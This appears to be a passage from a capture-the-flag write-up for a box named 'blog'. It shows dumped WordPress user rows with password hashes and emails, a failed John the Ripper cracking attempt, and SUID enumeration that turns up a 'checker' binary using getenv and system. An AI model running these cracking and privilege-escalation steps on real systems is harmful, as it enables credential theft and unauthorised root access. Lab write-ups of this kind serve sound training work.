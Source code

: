```bash
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
|  1 | bjoel      | $P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/ | bjoel         | nconkl1@outlook.com          |          | 2020-05-26 03:52:26 |                     |           0 | Billy Joel    |
|  3 | kwheel     | $P$BedNwvQ29vr1TPd80CDl6WnHyjr8te. | kwheel        | zlbiydwrtfjhmuuymk@ttirv.net |          | 2020-05-26 03:57:39 |                     |           0 | Karen Wheeler |
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
2 rows in set (0.00 sec)
```

We found the following hash for `bjoel`: `bjoel:$P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/`.

I tried cracking it, but without success.

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:03:53 DONE (2025-03-09 15:25) 0g/s 61475p/s 61475c/s 61475C/s !!!@@@!!!..*7¡Vamos!
Session completed. 
```

Nothing found, checking the **SUID** binaries, I found an unusual binary named `checker`

```bash
www-data@blog:/$ find / -perm -4000 2>/dev/null

<REDACTED>

/usr/sbin/checker

<REDACTED>
```

Checking the readable characters of the binary we can't get much out of it, but it is using the `getenv` function.

```bash
www-data@blog:/$ strings /usr/sbin/checker
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
puts
getenv
system
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
=9	
AWAVI
AUATL
[]A\A]A^A_
admin
/bin/bash
Not an Admin
```
